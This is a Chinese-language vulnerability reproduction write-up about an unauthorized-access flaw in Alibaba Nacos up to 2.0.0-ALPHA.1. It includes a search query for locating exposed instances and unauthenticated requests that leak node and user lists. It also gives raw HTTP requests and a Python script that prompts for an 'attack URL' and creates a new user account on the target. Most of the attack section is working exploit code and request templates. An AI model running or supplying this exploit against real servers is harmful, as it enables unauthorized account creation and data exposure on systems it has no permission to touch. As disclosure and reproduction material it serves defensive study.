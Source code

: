 # Nacos 未授权访问漏洞

## 漏洞描述

2020年12月29日，Nacos官方在github发布的issue中披露Alibaba Nacos 存在一个由于不当处理User-Agent导致的未授权访问漏洞 。通过该漏洞，攻击者可以进行任意操作，包括创建新用户并进行登录后操作。

## 漏洞影响

```
Nacos <= 2.0.0-ALPHA.1
```

## 网络测绘

```
title="Nacos"
```

## 环境搭建

https://github.com/alibaba/nacos/releases/tag/2.0.0-ALPHA.1

```shell
wget https://github.com/alibaba/nacos/releases/tag/2.0.0-ALPHA.1
tar -zxvf nacos-server-2.0.0-ALPHA.1.tar.gz
./startup.sh -m standalone
```



然后访问 http://xxx.xxx.xxx.xxx:8848/nacos 即可，默认账号密码 **nacos/nacos**

![](images/202202102003931.png)



## 漏洞复现

可以再项目的 issues 中看到大量的关于越权的安全问题的讨论



https://github.com/alibaba/nacos/issues/1105



![](images/202202102003894.png)

![](images/202202102003898.png)



这里我们在登录后任意一个位置看一下请求，并在未授权的情况下看是否可以访问



![](images/202202102004781.png)



这里的请求url简化为



http://xxx.xxx.xxx.xxx:8848/nacos/v1/core/cluster/nodes?withInstances=false&pageNo=1&pageSize=10&keyword=



退出用户后在前台访问这个 url



![](images/202202102004013.png)



可以发现以及泄露了 **ip节点** 等数据



同样我们查看用户列表的请求并在前台访问



http://xxx.xxx.xxx.xxx:8848/nacos/v1/auth/users?pageNo=1&pageSize=9



![](images/202202102004595.png)

![](images/202202102004600.png)



这里可以发现对用户的请求是完全没有过滤的，可以通过未授权的情况获取用户的敏感信息



我们尝试创建用户并抓包



![](images/202202102004325.png)



返回下列创建成功



```plain
{"code":200,"message":"create user ok!","data":null}
```



同样的我们简化请求



```plain
POST /nacos/v1/auth/users?
username=peiqi&password=peiqi
```



![](images/202202102004662.png)

![](images/202202102004665.png)



看到有文章说要加上**User-Agent请求头**



```plain
User-Agent: Nacos-Server
```



但是大量测试之后发现好像是无关紧要的，没有请求头同样可以创建用户

- 同样的原理也可以用于修改密码添加配置等

## 漏洞POC

```
# 添加用户
POST /nacos/v1/auth/users HTTP/1.1
Host: 127.0.0.1
User-Agent: Nacos-Server
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/
*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

username=aaaa&password=bbbb
```

```
# 查看用户
GET /nacos/v1/auth/users?pageNo=1&pageSize=100 HTTP/1.1
Host: 127.0.0.1
User-Agent: Nacos-Server
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;
q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
```

- 注意下大部分企业的 nacos的url为 /v1/auth/users ，而不是  /nacos/v1/auth/users
- 可以按目标情况自行修改

```python
import requests
import sys
import random
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号 : PeiQi文库                                                     \033[0m')
    print('+  \033[34mVersion: Nacos <= 2.0.0-ALPHA.1                                   \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    # vuln_url = target_url + "/nacos/v1/auth/users"
    vuln_url = target_url + "/v1/auth/users"
    headers = {
        "User-Agent": "Nacos-Server",
        "Content-Type": "application/x-www-form-urlencoded",
    }
    number = random.randint(0,999)
    data = "username=peiqi{}&password=peiqi".format(str(number))
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, headers=headers, data=data, verify=False, timeout=5)
        print("\033[32m[o] 正在请求 {}/nacos/v1/auth/users \033[0m".format(target_url))
        if "create user ok!" in response.text and response.status_code == 200:
            print("\033[32m[o] 目标 {}存在漏洞 \033[0m".format(target_url))
            print("\033[32m[o] 成功创建账户 peiqi{} peiqi\033[0m".format(str(number)))
        else:
            print("\033[31m[x] 创建用户请求失败 \033[0m")
            sys.exit(0)
    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)

if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)
```

![](images/202202102004659.png)

